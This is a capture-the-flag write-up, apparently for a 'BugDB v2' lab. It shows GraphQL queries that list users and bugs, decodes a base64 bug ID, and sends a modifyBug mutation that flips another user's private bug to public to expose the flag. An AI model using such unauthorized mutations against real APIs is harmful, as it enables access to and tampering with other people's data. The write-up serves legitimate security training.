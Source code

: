 # BugDB v2 - FLAG0

## 0x00 Overview

Pretty much same as [BugDB v1][1]. There is only a tiny difference on mutate the data.

## 0x01 Take a Tour

### allUsers

Users no longer have their bugs.

```graphql
query{
  allUsers {
    edges {
      node {
        id
        username
      }
    }
  }
}
```

![](./imgs/allUsers.jpg)

### allBugs

There is only one bug in array. And the one shows NOT PRIVATE status.

```graphql
query{
  allBugs {
    id
    reporter {
      id
      username
    }
    reporterId
    text
    private
  }
}
```

![](./imgs/allBugs.jpg)

And the bug id can be [decoded][2] 

```
base64decode(QnVnczox) = Bugs:1
```

### mutation

Try modify Bugs:2

```graphql
mutation{
  modifyBug(id:2, private:false) {
    ok
  }
}
```

![](./imgs/mutation.jpg)

## 0x02 FLAG

Go check back allBugs again.

```graphql
query{
  allBugs {
    id
    reporter {
      id
      username
    }
    reporterId
    text
    private
  }
}
```

Get the FLAG

![](./imgs/flag.jpg)

[1]: ../../bugdb_v1/flag0
[2]: https://www.base64decode.org/
